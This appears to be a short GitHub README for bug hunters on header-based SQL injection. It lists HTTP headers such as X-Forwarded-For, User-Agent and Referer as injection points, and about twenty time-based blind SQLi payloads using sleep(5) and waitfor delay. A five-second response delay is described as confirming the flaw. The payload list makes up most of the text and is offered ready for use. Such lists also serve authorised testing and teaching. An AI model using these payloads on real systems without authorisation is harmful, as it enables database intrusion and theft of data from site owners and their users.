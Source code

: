 ## Can't find SQL injections?

### You should try Header Based SQLi's 👇

🔴 What's that?
This Vulnerability Allows Hackers to exploit SQL injections through HTTP headers being sent between the browser and server.

🟡 But where to find it?
Inject payloads inside of basic HTTP headers

🟢 What payloads do I use?
Use my favorite payloads:
 
### `If the injection works, the response will have a delay of 5 seconds!`
 
# `INSIDE OF THESE HTTP HEADERS INJECT BELOW PAYLOADS`

`X-Forwarded-For`
`User-agent`
`Referer`
`Accept`
`Accept-Charset`
`Content-Type`
`Connection`
`Content-Length`
`X-Client-Ip`

`X-Remote-Ip`
`X-Host`
`X-Forwarded-Host`
 
# `USE THESE PAYLOADS`

* `sleep(5)#`
* `1 or sleep(5)#`
* `" or sleep(5)#`
* `' or sleep(5)#`
* `" or sleep(5)="`
* `' or sleep(5)='`
* `1) or sleep(5)#`
* `") or sleep(5)="`
* `') or sleep(5)='`
* `1)) or sleep(5)#`
* `")) or sleep(5)="`
* `')) or sleep(5)='`
* `;waitfor delay '0:0:5'--`
* `);waitfor delay '0:0:5'--`
* `';waitfor delay '0:0:5'--`
* `";waitfor delay '0:0:5'--`
* `');waitfor delay '0:0:5'--`
* `");waitfor delay '0:0:5'--`
* `));waitfor delay '0:0:5'--`
* `'));waitfor delay '0:0:5'--`
* `"));waitfor delay '0:0:5'--`

[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/safisecu)

